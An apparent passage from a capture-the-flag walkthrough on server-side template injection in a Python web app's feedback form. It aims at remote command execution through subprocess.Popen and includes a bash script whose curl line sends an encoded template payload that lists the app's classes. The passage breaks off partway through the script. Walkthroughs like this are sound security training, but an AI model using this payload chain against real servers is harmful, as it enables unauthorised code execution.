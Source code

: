     ![image 47](img/image47.png)

    Now you have a full list of all the classes available within the application. All apps are different, so they will be exploited differently. Like we previously mentioned, we developed this challenge so many different methods for exploitation could be employed; however, the focus of this challenge is on executing remote commands.

7. We'll perform remote code execution (RCE) now. Find the following class: subprocess.Popen. You can do this by pressing ctrl+F in the browser and searching for subprocess.Popen. Note the index/position where it is found. You can count the classes one by one until you reach subprocess.Popen, but this will take a long time. So, even though we are solving this challenge using the web interface, we will create a script to find the index more easily.

Here is our script:

    ```
    #!/bin/bash

    ### STEP 1: Once you see all available classes in the application, copy and paste the website link and use it to make a curl like: 
        
    step_1=$(curl -o SSTI.txt http://10.10.10.110/feedback/?subject=%7B%7B2022.__class__.__mro__%5B1%5D.__subclasses__%28%29%7D%7D&comments=Nothing%2C+really.%0D%0A%09%09)
        
    ### STEP 2: This 'sed' command replaces each '&lt;' with a new line which is equivalent to adding a new line before each '<'. 
        